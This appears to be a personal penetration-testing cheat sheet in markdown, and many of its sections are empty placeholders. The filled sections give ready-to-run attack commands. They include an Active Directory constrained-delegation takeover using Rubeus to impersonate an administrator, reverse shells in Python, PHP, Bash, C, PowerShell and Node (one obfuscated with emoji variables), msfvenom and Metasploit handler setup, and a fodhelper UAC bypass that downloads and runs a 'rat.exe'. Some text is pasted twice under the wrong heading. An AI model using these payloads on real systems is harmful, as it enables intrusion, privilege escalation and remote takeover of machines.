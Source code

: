 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
* unzip -d and apktool -d both (different outputs at time)
    
* check for /assets and /res/raw (api keys, encryption keys)
    
* sensitive files and external storage (world readable  & writeable)
    
* executables & log files on external storage
    
* look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    
* check for installed package "vnd.android.package-archive" (they want to install something)
    
* hidden directories (.folder)
    
* api keys saved as bytearray to obfuscate
    
* identify crypto & understand it
    
* webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    
* interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    
* overwriting ssl errors :facepalm:
    
* xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
                                                                           
* use Mitm Proxy (mitm.it has the cert)
                                                                           
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        <details><summary>Constrained Delegation</summary>
       
          
          
          
          First off, download two PS scripts in local machine..

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

1. **Check User's Permission and Windows Versions**

    Check if users are allowed to create a new computer object on the domain.

    ```bash
    Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

    # -------------------------
    # Result
    ms-ds-machineaccountquota: 10
    ```

    And check if the machine is at least Windows Server 2012.

    ```bash
    Get-DomainController

    # -------------------------
    # Result
    OSVersion: Windows Server 2022 Standard
    ```

    Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.

    ```bash
    hostname
    Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

    # ------------------
    # Result
    name msds-allowedtoactonbehalfofotheridentity
    ---- ----------------------------------------
    <HOSTNAME>   {1, 0, 4, 128...}
    ```
      
    ```bash
      .\Rubeus.exe s4u /user:HOST$ /rc4:rc4ORntml /msdsspn:CIFS/host.domain.com /impersonateuser:administrator /ptt
      
       dir \\host.domain.com\C$
    ````  

2. **Create a New Computer**

    Now you can create a new computer object.

    ```bash
    New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
    Get-DomainComputer test01

    # ----------------------
    # Result (copy the id)
    objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
    ```

    Create a new raw security descriptor.

    ```bash
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<objectid-of-a-new-computer>)"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer <hostname> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
    ```

3. **Impersonate to Get a Ticket**

    Download Rubeus.exe in local machine.

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    ```

    Then upload it to the target machine and generate a RC4 hash.

    ```bash
    # Evil-WinRM
    upload Rubeus.exe
    .\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

    # -------------------------
    # Result (copy the rc4 hash)
    rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

    ```

    You can request a Kerberos ticket for a new machine account while impersonating an administrator.

    ```bash
    .\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

    # --------------
    # Result (copy the output long hash at the last)
    ```

    Generate a ticket

    ```bash
    [IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
    download ticket.kirbi
    ```

4. **Make the Ticket Usable and Use It**

    Download “ticket_converter.py”.

    ```bash
    wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
    ```

    Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

    ```bash
    kdestroy
    python3 ticket_converter.py ticket.kirbi ticket.ccache
    export KRB5CCNAME=ticket.ccache
    ```

    We can use the ticket to get a shell.

    ```bash
    impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
    ```
      
      
      
    </details>
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
#### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    
#### Python
```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    
#### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    
#### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    
#### PHP Emoji
```php
    php -r '$ð="1";$ð="2";$ð
="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð
. $ð¤¢. $ð¤ . $ðµ. $ð
. $ð¤¢. $ð. $ð¤ . $ðµ. $ð
;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
```
    
#### C
```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
    
#### Powershell
    
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```

#### NodeJS
```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>

## Metasploit 
#### ./ Multi Use Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
  
  proxychains faketime -f +8h impacket-wmiexec -k -no-pass user@10.10.10.10
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>

  
  
  
  
  
  
  
  
  
  
  
  
  
  <details> 
  <summary> <b>UAC Bypass</b> </summary>
    
    
 https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper

```ps
https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper
iwr -Uri http://10.10.10.11/rat.exe -Outfile C:\rat.exe

New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "powershell.exe -exec bypass -c C:\rat.exe" -Force

execute the binary
C:\Windows\System32\fodhelper.exe
```
    
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
    
    proxychains impacket-psexec -no-pass Administrator@10.10.10.10 -hashes :admin_hash>`
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
If skew is -30 minutes 
The command would be 
faketime -f -30m
